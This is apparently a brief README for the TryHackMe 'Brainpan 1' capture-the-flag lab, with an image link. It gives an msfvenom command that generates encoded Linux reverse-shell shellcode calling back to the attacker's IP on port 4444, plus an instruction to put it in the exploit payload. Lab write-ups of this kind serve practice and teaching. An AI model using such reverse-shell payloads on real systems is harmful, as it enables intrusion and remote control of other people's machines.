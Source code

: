 # TryHackMe's "Brainpan 1" room (https://tryhackme.com/room/brainpan).

# First of all create your shellcode for linux with:
(msfvenom -p linux/x86/  shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00")
# Introduce the shellcode in the payload.
[![1e85c1ebf1b58d771d1fd78b8a728ad7.png](https://i.postimg.cc/652MhLzL/1e85c1ebf1b58d771d1fd78b8a728ad7.png)](https://postimg.cc/mt43L9vt)

